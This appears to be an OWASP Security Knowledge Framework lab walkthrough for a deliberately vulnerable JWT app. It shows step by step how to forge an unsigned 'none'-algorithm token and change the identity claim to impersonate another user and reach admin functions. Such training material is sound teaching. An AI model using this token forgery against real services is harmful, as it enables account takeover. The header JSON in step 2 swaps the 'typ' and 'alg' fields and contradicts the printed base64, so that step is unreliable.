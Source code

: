 # KBID 7006 - JWT Null

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:jwt-null
```

```text
$ sudo docker run -ti -p localhost:5000:5000 blabla1337/owasp-skf-lab:jwt-null
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

### Step1

The application shows a dropdown menu from which we can choose an intro or chapters to be displayed on the client-side.

![](.gitbook/assets/jwt-null-1.png)

First thing we need to do know is to do more investigation on the requests that are being made. We do this by setting up our intercepting proxy so we can gain more understanding of the application under test.

After we set up our favourite intercepting proxy we are going to look at the traffic between the server and the front-end. Enter the credentials: _username: user_ \| _password:user_

The first thing to notice is after sucessful logon, the response contains an access token.

![](.gitbook/assets/jwt-null-2.png)

The image above shows the access-token contains three base64 encoded splitted with two dots \(.\) separators, which indicates it's a JSON Web Token \(JWT\):

#### Header

```javascript
{
 "alg": "HS256",
 "typ": "JWT"
}
```

#### Claims

```javascript
{
 "exp": 1553003718,
 "iat": 1553003418,
 "nbf": 1553003418,
 "identity": 1
}
```

#### Signature

Last encrypted part, containing the digital signature for the token..

## Exploitation

### Step 1

A potential attacker can now decode the token in [http://jwt.io](http://jwt.io) website to check its content.

![](.gitbook/assets/jwt-null-3.png)

As shown in the above picture, there are 2 points which can be tampered.

* alg header: contains the information of which algorithm is being used for digital signature of the token.
* indentity: this information is used by the application to identify which user ID is currently authenticated.

How about checking if the server is blindly accepting the digital signature algorithm as stored by token. Of course, changing the signature would also change the token signature, but, what if the server accepts NONE algorithm?

The NONE algorithm means signature is not required, so the token can be tampered and will be accepted by the server.

=======
### Step 2

#### Header tampering

```text
{
  "typ": "NONE",
  "alg": "HS256"
}
#base64 eyJ0eXAiOiJKV1QiLCAiYWxnIjoiTk9ORSJ9
```

Now, let's play with the identity:

```text
{
  "exp": 1553003718,
  "iat": 1553003418,
  "nbf": 1553003418,
  "identity": 2
}
```

As the signature is not required, the new tampered JWT token will look like this:

> eyJ0eXAiOiJKV1QiLCAiYWxnIjoiTk9ORSJ9.eyJleHAiOjE1NTMwMDM3MTgsImlhdCI6MTU1MzAwMzQxOCwibmJmIjoxNTUzMDAzNDE4LCJpZGVudGl0eSI6Mn0.

### Step 2

Open the local storage tab within the browser and replace the original token:

![](.gitbook/assets/jwt-null-4.png)

Now hit the _Admin_ button and check if the tampered token was accepted.

![](.gitbook/assets/jwt-null-5.png)

Yes! The server accepted the tampered access-token. Can we check if there are more users available which can be impersonated?

## Additional Resources

Please refer to the JWT.io information for more information regarding JWT.

{% embed url="https://jwt.io/introduction/" caption="" %}

Also consider OWASP JWT Cheat Sheet as reference.

{% embed url="https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/JSON\_Web\_Token\_Cheat\_Sheet\_for\_Java.md" caption="" %}

